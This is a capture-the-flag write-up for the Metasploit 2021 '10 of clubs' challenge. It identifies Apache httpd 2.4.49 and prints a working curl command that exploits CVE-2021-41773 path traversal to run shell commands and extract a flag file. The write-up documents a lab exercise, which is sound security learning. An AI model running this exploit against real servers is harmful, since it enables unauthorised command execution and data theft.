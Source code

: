```yaml
---
layout: load_md
title: The White Circle | Metasploit 2021 | 10 of clubs Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Metasploit 2021
parent: metasploit_2021
category: 10_of_clubs
challenge: 10 of clubs
tags: "web, starry, cve, rce"
date: 2021-12-08T00:00:00+00:00
last_modified_at: 2021-12-08T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Metasploit 2021</h1>
## 10 of clubs

> Solved by: Starry-Lord

```
port 12380
```

This port was using Apache httpd 2.4.49 and I found a good research on the subject here:

https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013


I didn't need to get a shell. ls and cat commands were enough to extract the png:


```
curl -vv 'http://172.17.15.117:12380/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo; cat ../secret/safe/flag.png|base64'
```

![](https://i.imgur.com/aYyIBok.png)